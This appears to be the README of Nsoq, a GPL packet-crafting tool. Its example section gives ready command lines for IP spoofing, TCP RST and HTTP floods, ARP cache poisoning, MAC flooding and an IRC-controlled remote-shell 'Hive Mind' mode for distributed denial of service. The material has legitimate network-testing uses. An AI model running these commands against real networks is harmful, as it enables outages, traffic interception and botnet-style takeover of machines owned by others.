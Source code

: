 Nsoq official documentation: See [here.](http://www.nsoq.org)
========================================================================


## About
--------

Nsoq is a Network Security Tool for packet manipulation that allows a large number of options. Its primary purpose is to analyze and test several scenarios of TCP/IP environments, such as TCP/UDP packets and low levels ARP/RARP packets. Nsoq sends packets to any target type (hostnames, IPs and MAC address) handling many fields/headers like: Source/Destination IP address, Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet size, payloads ARP/RARP, etc.

Nsoq is able to operate in the RSOI mode (Remote System over IRC), where the tool can surrender all control of machine resources to some specific IRC channels ( also called Hive Mind option).

Nsoq executes systematically many types of network based attacks, like packet attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and Web Stress Testing.

<BR/>

## Features
-----------

#### Some white options:
- Handle many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Handle TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and send UDP packets.
- Send and check ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler for all modes.
- Arbitrary packet size for all protocols.
- Show the packet dump (tcpdump style).
- [RSOI mode] Gives a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP requests.
- [DoS/DDoS Attack] WEB Stress test using UDP packets.
- [DoS/DDoS Attack] WEB Stress test using ICMP packets.
- [DoS/DDoS Attack] WEB Stress test using TCP packets (SYN, ACK headers).
- [DoS/DDoS Attack] WEB Stress test using partials HTTP requests (Slowloris attack).
- [HIVE MIND] Gives a remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- [HIVE MIND] Across of an IRC channel, performs a Distributed Denial Of Service (DDoS) attack.
- MAC/IP spoofing.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.nsoq.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.nsoq.org".

   # nsoq -s 10.1.100.100 -d www.nsoq.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.nsoq.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to the server "nsoq.org" on port 9000, 
      from source port 22000 with flood Delay of 900 microseconds. 


   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for sending ICMP packets (Echo Request) with size of 
      512 bytes to host "201.1.0.13" with TTL 50. Doesn't wait by ICMP Echo ReplY. 

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen for TCP connections on local port "12345" writing the received
      data to the file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.nsoq.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.nsoq.org" on port 8080, with 12
      threads and with aggressive flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. 
      (The source MAC address and the source IP address will be obtained 
      locally by the active interface. The destination IP address will be NULL). 

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface (with source MAC 
      00:BB:AA:CC:BB:AA) to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" 
      have now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option 
      changes the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Sends one Arp'ing packet to Host "10.1.50.100". If the host hardware 
      is alive on network or LAN, by default an ARP REPLY will be returned. 
      Otherwise, nothing happens. This option can be used to bypass ICMP 
      filters (PING filters).

   # nsoq -f 250000
      Sends 250000 ARP REPLY packets (to physical broadcast) with the fields 
      (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP ADDRESSESS) 
      randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Listen for all incoming ARP/RARP 
      packets on link layer and show the packet content. 

   # nsoq -N irc.quakenet.org -L Cybers
      Sets Nsoq to connect on IRC Server "irc.quakenet.org" on channel #Cybers. 
      This option puts Nsoq on RSOI mode. So, the tool will be NO AVAILABLE 
      to be controled by the user. Only the users on IRC server 
      "irc.quakenet.org" channel #Cybers can do this. 

   # nsoq -d 10.0.0.1 -W -n 40
     Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send 
     HTTP requests (GET method) on aggressive flood to host "10.0.0.1" 
     on port 80 (default) with 40 threads. This stress test attempts 
     to exhaust the web service's resources and check the target's limit response.  
```

<BR/>

## SECURITY
-----------

   Nsoq needs superuser privileges (root) for execution. DO NOT use the bit SUID 
   to allow root privileges. This is not recommended and may allow involuntary or 
   aggressive DoS/DDoS attacks. The privileged use of Nsoq also allows users to
   manipulate the ARP cache table of neighbors on network, or put all the system 
   over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded here: [http://www.nsoq.org](http://www.nsoq.org)
